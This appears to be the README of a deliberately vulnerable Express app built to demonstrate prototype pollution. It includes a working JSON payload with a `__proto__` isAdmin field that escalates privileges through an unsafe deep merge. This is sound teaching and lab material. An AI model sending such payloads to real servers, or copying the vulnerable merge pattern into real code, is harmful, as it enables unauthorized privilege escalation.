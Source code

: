 # User Details API

A simple Node.js app with Express that allows users to update their details, including a deeply merged address object.

This app demonstrates the prototype pollution vulnerability.

Your goal is to hack the server and get the message "You were hacked!".
You can see the solution under the `POST /update-details` section.

## Setup

1. Install dependencies:
   ```bash
   npm install
   ```
2. Start the server:
   ```bash
   npm start
   ```

## API

### GET /user-details

Fetch the most recent user's details.

**Response:**
```
{
    "userDetails": {
        "name": "",
        "age": 0,
        "address": {
            "address_line_1": {
                "street": ""
            },
            "address_line_2": {
                "building_name": "",
                "unit_number": "",
                "floor_number": "",
                "room_number": ""
            },
            "city": "",
            "state": "",
            "zip": ""
        }
    }
}
```

### POST /update-details

Regular post request to update the user's details:

**Request:**
```
{
  "name": "John Doe",
  "age": 30,
  "address": {
    "address_line_1": {
      "street": "123 Main Street"
    },
    "address_line_2": {
        "unit_number": "204",
        "floor_number": "2",
        "room_number": "04"

    },
    "city": "New York",
    "state": "NY",
    "zip": "10001"
  }
}
```

If you want to hack the server, you can do so by sending the following request (note the additional `__proto__` attribute):

```
{
  "name": "John Doe",
  "age": 30,
  "address": {
    "address_line_1": {
      "street": "123 Main Street"
    },
    "address_line_2": {
        "unit_number": "204",
        "floor_number": "2",
        "room_number": "04"

    },
    "city": "New York",
    "state": "NY",
    "zip": "10001",
    "__proto__": {"isAdmin": true}
  }
}
```

### GET /is-admin

Check if user is admin by creating an empty dictionary and checking the isAdmin attribute.

This is the response when the user is not admin:
```
{
  "message": "User is not admin"
}
```

Once you hack the server, the response will be:
```
{
  "message": "You were hacked!"
}
```
